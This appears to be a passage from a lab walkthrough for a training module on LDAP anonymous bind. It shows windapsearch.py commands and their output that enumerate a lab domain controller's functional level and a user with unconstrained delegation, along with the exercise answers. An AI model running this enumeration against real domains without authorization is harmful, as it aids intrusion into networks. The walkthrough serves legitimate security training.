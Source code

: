 After cloning the repository, students need to navigate into the directory and use the `windapsearch.py` tool to enumerate the domain functional level:

Code: shell

```shell
python3 windapsearch.py --dc-ip STMIP -u "" --functionality
```

```
┌─[htb-ac330204@htb-vpci2zpkts]─[~/windapsearch]
└──╼ $python3 windapsearch.py --dc-ip 10.129.42.188 -u "" --functionality

[+] No username provided. Will try anonymous bind.
[+] Using Domain Controller at: 10.129.42.188
[+] Getting defaultNamingContext from Root DSE
[+]     Found: DC=INLANEFREIGHT,DC=LOCAL
[+] Functionality Levels:
[+]      domainControllerFunctionality: 2016
[+]      forestFunctionality: 2016
[+]      domainFunctionality: 2016
[+] Attempting bind
[+]     ...success! Binded as: 
[+]      None

[*] Bye!
```

Students will see that the domain functional level is `2016`.

Answer: `2016`

# LDAP Anonymous Bind

## Question 2

### "Find a user with unconstrained delegation who is also part of the Protected Users group"

Students need to run `windapsearch.py` from the Pwnbox/`PMVPN`:

Code: shell

```shell
python3 windapsearch.py --dc-ip STMIP -u "" --unconstrained-user --full | grep -A 5 Protected
```

```
┌─[us-academy-1]─[10.10.15.2]─[htb-ac330204@htb-wpsv2mjmuu]─[~/ldapsearch-ad]
└──╼ $python3 windapsearch.py --dc-ip 10.129.42.188 -u "" --unconstrained-user --full | grep -A 5 Protected

memberOf: CN=Protected Users,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
uSNChanged: 12904
name: sqldev
objectGUID: xsI7iohJJEuU3L9ddDQaZQ==
userAccountControl: 590336
badPwdCount: 0
```
